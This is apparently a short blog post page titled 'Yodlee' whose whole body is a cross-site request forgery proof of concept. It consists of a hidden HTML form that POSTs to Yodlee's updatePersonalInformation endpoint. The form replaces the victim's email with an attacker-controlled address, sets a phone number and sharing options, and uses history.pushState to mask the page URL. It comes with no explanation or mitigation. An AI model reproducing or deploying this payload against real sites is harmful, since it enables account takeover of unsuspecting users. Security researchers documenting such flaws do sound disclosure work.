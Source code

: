 ```yaml
---
layout: post
title: Yodlee
---
```


---


<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://money.yodlee.com/services/Authenticator/updatePersonalInformation/?app=10003700&instance=&status=published&token=undefined&resturl=https://172.17.25.209/services/srest/pfm3&version=1003.05&cobAppExtension=pfm3" method="POST">
      <input type="hidden" name="firstName" value="Sahad" />
      <input type="hidden" name="lastName" value="NK" />
      <input type="hidden" name="emailID" value="attacker123&#64;gmail&#46;com" />
      <input type="hidden" name="country" value="United&#32;States&#32;of&#32;America" />
      <input type="hidden" name="mobileNo" value="&#43;1&#45;7012722544" />
      <input type="hidden" name="shareInfo" value="true" />
      <input type="hidden" name="receiveEmails" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
